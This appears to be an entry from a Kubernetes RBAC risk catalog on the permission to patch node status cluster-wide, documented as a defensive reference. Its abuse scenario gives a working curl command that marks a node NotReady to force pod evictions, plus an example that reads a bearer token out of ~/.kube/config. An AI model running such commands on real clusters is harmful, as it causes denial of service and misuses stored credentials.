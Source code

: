 ```yaml
---
id: 1069
title: "Patch node status cluster-wide"
description: "Allows patching the status of any node in the cluster. This can be abused to mark nodes as (un)healthy or (un)schedulable, impacting workload scheduling, potentially tricking controllers, or causing denial of service."
category: Tampering
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                              |
| ------------- | ------------------------------------------------------------------------------------------------------------------ |
| ID            | 1069                                                                                                               |
| Name          | Patch node status cluster-wide                                                                                     |
| Risk Category | Tampering                                                                                                          |
| Risk Level    | {{< risk High >}}                                                                                                  |
| Role Type     | ClusterRole                                                                                                        |
| API Groups    | core                                                                                                               |
| Resources     | nodes/status                                                                                                       |
| Verbs         | patch, update                                                                                                      |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "NodeManipulation" >}} {{< tag "SchedulingAbuse" >}} {{< tag "Tampering" >}} |

## Description

Allows patching the status of any node in the cluster. This can be abused to mark nodes as (un)healthy or (un)schedulable, impacting workload scheduling, potentially tricking controllers, or causing denial of service.

## Abuse Scenarios

1. Patch a node's status to mark it as 'NotReady', causing pods to be evicted.

```bash {copy=true}
# Replace <kubernetes-api-server> with your API server address
# Replace <token> with your authentication token
curl -k -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -X PATCH \
  --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"KubeletStopped","message":"Kubelet stopped posting node status."}]}}' \
  https://<kubernetes-api-server>/api/v1/nodes/<node-name>/status
# Example: curl -k -H "Authorization: Bearer $(cat ~/.kube/config | grep token: | awk '{print $2}')" -H "Content-Type: application/json" -X PATCH --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"KubeletStopped","message":"Kubelet stopped posting node status."}]}}' https://127.0.0.1:6443/api/v1/nodes/minikube/status

```
